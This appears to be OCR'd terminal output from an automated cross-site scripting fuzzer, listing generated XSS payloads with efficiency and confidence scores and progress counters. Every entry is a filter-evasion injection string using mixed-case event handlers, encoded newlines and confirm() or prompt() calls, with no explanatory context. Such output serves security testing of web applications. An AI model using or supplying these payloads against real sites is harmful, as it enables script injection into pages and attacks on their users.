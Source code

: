 ------------------------------------------------------------
 Payload: <DetaiLs%0aOnPoInTEreNTER+=+confirm()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 195/1536
 
------------------------------------------------------------
 Payload: <htMl/+/ONPOInTerENter%0d=%0d[8].find(confirm)%0dx// 
 Efficiency: 93 
 Confidence: 10 
 Progress: 196/1536
 
 Progress: 197/1536
 
------------------------------------------------------------
 Payload: <dEtaiLs/+/OnToggLe%0d=%0da=prompt,a()// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 198/1536
 
------------------------------------------------------------
 Payload: <DEtaILs%0aoNTOggle+=+(confirm)()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 199/1536
 
------------------------------------------------------------
 Payload: <A%0aonmouseOVER%0a=%0a(prompt)``%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 200/1536
 
------------------------------------------------------------
 Payload: <A%0doNPOintErEntEr%0d=%0d(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 201/1536
 
------------------------------------------------------------
 Payload: <D3V/+/ONMousEOVEr%0a=%0a[8].find(confirm)//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 202/1536
 
------------------------------------------------------------
 Payload: <A%0dONpOInteReNTeR+=+[8].find(confirm)%0dx//v3dm0s 
 Efficiency: 93 
 Confidence: 10 
 Progress: 203/1536
 
------------------------------------------------------------
 Payload: <D3v%0doNmOUSeOvEr+=+a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 204/1536
 